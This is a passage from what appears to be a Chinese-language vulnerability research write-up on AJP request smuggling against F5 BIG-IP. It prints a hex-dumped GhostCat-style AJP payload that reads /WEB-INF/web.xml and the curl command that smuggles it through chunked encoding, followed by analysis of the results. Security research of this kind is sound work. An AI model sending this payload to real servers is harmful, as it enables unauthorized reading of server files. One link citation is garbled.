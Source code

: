 作为第一步，[RicterZ 的博客文章](https://ricterz-me.translate.goog/posts/2022-03-03-a-new-attack-method-ajp-request-smuggling.txt?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp)中获取了示例 AJP 有效负载实现，并将其指向我们知道会公开暴露的 URL——登录页面。

```plain
$ xxd raw.dat
00000000: 0008 4854 5450 2f31 2e31 0000 012f 0000  ..HTTP/1.1.../..
00000010: 0931 3237 2e30 2e30 2e31 00ff ff00 0161  .127.0.0.1.....a
00000020: 0000 5000 0000 0a00 216a 6176 6178 2e73  ..P.....!javax.s
00000030: 6572 766c 6574 2e69 6e63 6c75 6465 2e72  ervlet.include.r
00000040: 6571 7565 7374 5f75 7269 0000 012f 000a  equest_uri.../..
00000050: 0022 6a61 7661 782e 7365 7276 6c65 742e  ."javax.servlet.
00000060: 696e 636c 7564 652e 7365 7276 6c65 745f  include.servlet_
00000070: 7061 7468 0001 532f 2f2f 2f2f 2f2f 2f2f  path..S/////////
00000080: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000090: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000a0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000c0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000d0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000e0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000f0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000100: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000110: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000120: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000130: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000140: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000150: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000160: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000170: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000180: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000190: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001a0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001c0: 2f2f 2f2f 2f2f 2f2f 2f2f 000a 001f 6a61  //////////....ja
000001d0: 7661 782e 7365 7276 6c65 742e 696e 636c  vax.servlet.incl
000001e0: 7564 652e 7061 7468 5f69 6e66 6f00 0010  ude.path_info...
000001f0: 2f57 4542 2d49 4e46 2f77 6562 2e78 6d6c  /WEB-INF/web.xml
00000200: 00ff
$ curl -k -i http://our.f5.ami.ip:8443/tmui/login.jsp -H 'Transfer-Encoding: chunked, chunked' --data-binary @raw.dat
```

当我们第一次发送此有效负载时，服务器返回登录页面，这是正常且预期的响应。然后，我们利用先进的渗透测试技能多次重新运行 curl 命令，因为有时漏洞研究会多次执行相同的操作，但会以某种方式得到不同的结果。

在几次 curl 请求之后，会偶尔收到 404 Not Found 响应。因此我们反编译了相关的 Apache .so 模块，并将其实现与修补后的 httpd 源代码进行了比较。

在这篇博文中，将进一步深入探讨 AJP 数据包的工作原理，但上面的示例基本与从 Tomcat 的 ROOTwebapp（2020 年的默认 [PoCGhostCat 漏洞](https://paper.seebug.org/3066/(https://www.trendmicro.com/en_us/research/20/c/busting-ghostcat-an-analysis-of-the-apache-tomcat-vulnerability-cve-2020-1938-and-cnvd-2020-10487.html%20%22PoCGhostCat%20%E6%BC%8F%E6%B4%9E%22)%EF%BC%89])读取 /WEB-INF/web.xml 的内容相同）。默认情况下，F5-BIGIP 不运行 ROOT Web 应用程序，因此系统返回 404。通过在 `/usr/share/tomcat/webapps/ROOT/WEB-INF/web.xml` 显式创建文件，触发 GhostCat 的本地文件包含漏洞（LFI）。
